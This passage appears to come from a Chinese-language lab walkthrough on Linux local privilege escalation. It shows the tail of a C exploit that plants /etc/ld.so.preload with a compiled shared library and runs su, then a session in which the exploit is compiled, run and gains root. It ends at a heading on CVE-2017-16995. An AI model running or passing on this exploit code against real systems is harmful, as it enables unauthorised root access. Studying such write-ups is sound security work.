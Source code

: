 ```
    if(fd == -1) {
        fprintf(stderr,"exploit failed\n");
        exit(-1);
    }

    fprintf(stderr,"/etc/ld.so.preload created\n");
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
}
```

然后将其保存到本地的一个文件里去。

```
ica@indishell:~$ chmod 777 Ubuntu_EXP.c  //赋予文件权限
ica@indishell:~$ gcc Ubuntu_EXP.c -o Ubuntu_EXP  //编译程序
ica@indishell:~$ ls
Ubuntu_EXP  Ubuntu_EXP.c
ica@indishell:~$ ./Ubuntu_EXP  //执行EXP
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id                          //检测提权是否成功
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),114(sambashare),1000(ica)
# 

```





# CVE-2017-16995 Ubuntu16.04本地提权漏洞



## 漏洞描述
